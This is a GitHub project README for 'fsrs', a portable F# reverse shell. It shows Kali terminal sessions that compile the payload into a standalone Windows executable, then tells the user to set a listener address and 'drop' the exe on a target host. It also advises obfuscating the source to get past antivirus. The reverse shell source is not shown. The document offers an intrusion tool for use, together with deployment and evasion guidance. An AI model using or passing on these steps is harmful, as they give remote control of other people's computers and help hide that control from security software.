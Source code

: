 # fsrs

portable f# reverse shell (self-contained executable)

**Requirements**

```
root@kali:/opt/fsrs# apt-get install fsharp
Reading package lists... Done
Building dependency tree       
Reading state information... Done
fsharp is already the newest version (4.5-0xamarin9+ubuntu1804b1).
0 upgraded, 0 newly installed, 0 to remove and 156 not upgraded.
```

**Usage**

Edit listener IP/Domain, Port values in fsrs.fsx.

Generate strong name key, compile to standalone .exe. 

```
root@kali:/opt/fsrs# sn -k fsrs.snk
Mono StrongName - version 5.18.0.240
StrongName utility for signing assemblies
Copyright 2002, 2003 Motus Technologies. Copyright 2004-2008 Novell. BSD licensed.

A new 1024 bits strong name keypair has been generated in file 'fsrs.snk'.

root@kali:/opt/fsrs# fsharpc --target:winexe --keyfile:fsrs.snk --standalone fsrs.fsx 
Microsoft (R) F# Compiler version 10.2.3 for F# 4.5
Copyright (c) Microsoft Corporation. All Rights Reserved.

root@kali:/opt/fsrs# ls -lha
total 1.6M
drwxr-xr-x  2 root root 4.0K Nov 27 04:54 .
drwxr-xr-x 29 root root 4.0K Nov 27 02:56 ..
-rwxr-xr-x  1 root root 1.6M Nov 27 04:54 fsrs.exe
-rw-r--r--  1 root root 1.5K Nov 27 04:54 fsrs.fsx
-rw-------  1 root root  596 Nov 27 04:52 fsrs.snk
```

Drop execute fsrs.exe on host for reverse shell.


**AV**

Not bad out of the box, source code will need obfuscation for further bypass.

<img width="1307" alt="Screenshot 2019-11-27 at 04 57 39" src="https://user-images.githubusercontent.com/56988989/69695174-4a5d6500-10d3-11ea-8ec2-a13386a9b91e.png">


Enjoy~

